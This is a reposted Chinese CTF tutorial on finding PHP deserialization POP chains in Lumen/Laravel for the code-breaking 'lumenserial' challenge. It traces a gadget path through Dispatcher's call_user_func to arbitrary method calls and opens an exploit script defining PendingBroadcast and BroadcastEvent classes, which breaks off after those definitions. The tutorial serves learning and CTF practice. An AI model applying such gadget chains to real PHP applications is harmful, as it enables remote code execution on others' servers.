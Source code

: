 > 原文链接: https://www.anquanke.com//post/id/170714 


# PHP反序列化入门之寻找POP链（二）


                                阅读量   
                                **197950**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t018cd2b7cfe9dfb035.png)](https://p2.ssl.qhimg.com/t018cd2b7cfe9dfb035.png)



## 前言

> 本文以 [**code-breaking**](https://code-breaking.com/) 中 **lumenserial** 为例，练习PHP反序列化 **POP链** 的寻找，题目地址：[https://code-breaking.com/puzzle/7/](https://code-breaking.com/puzzle/7/) 。

上篇 [文章](http://mochazz.github.io/2019/02/06/PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%85%A5%E9%97%A8%E4%B9%8B%E5%AF%BB%E6%89%BEPOP%E9%93%BE%EF%BC%88%E4%B8%80%EF%BC%89/) ，我们是通过 **PendingBroadcast** 类 **__destruct** 方法中的 **$this-&gt;events-&gt;dispatch** ，然后直接走 **$this-&gt;events** 对象的 **__call** 方法，本文将探索直接走 **$this-&gt;events** 对象 **dispatch** 方法的 **POP链** 。



## POP链一

我们直接搜索 **‘function dispatch(‘** ，发现有一个 **Dispatcher** 类的 **dispatchToQueue** 方法中调用的 **call_user_func** 函数两个参数都可控，而且 **dispatch** 中调用了 **dispatchToQueue** 方法，代码如下：

[![](https://p2.ssl.qhimg.com/t0170bcb8c87d1a35f9.png)](https://p2.ssl.qhimg.com/t0170bcb8c87d1a35f9.png)

从代码中我们可以看到，只要传入的 **$command** 变量是 **ShouldQueue** 类的实例即可。通过搜索，我们会发现 **ShouldQueue** 是一个接口，那么我们找到其实现类即可。直接搜索 **‘implements ShouldQueue’** ，我们随便选取一个实现类即可，这里我选用 **CallQueuedClosure** 类，相关代码如下：

[![](https://p3.ssl.qhimg.com/t01e53311dd0676b490.png)](https://p3.ssl.qhimg.com/t01e53311dd0676b490.png)

现在 **call_user_func** 函数的两个参数都可控，又变成了我们可以调用任意对象的任意方法了，这样我们有可以利用上篇文章中的方法，调用 **ReturnCallback** 类的 **invoke** 方法，并传入 **StaticInvocation** 类的对象作为参数，形成整个完整的 **POP链** ，利用 **exp** 如下：

```
&lt;?php
namespace IlluminateBroadcasting`{`
    class PendingBroadcast`{`
        protected $events;
        protected $event;
        function __construct($events, $event)`{`
            $this-&gt;events = $events;
            $this-&gt;event = $event;
        `}`
    `}`
    class BroadcastEvent`{`
        public $connection;
        public function __construct($connection)
        `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`;
```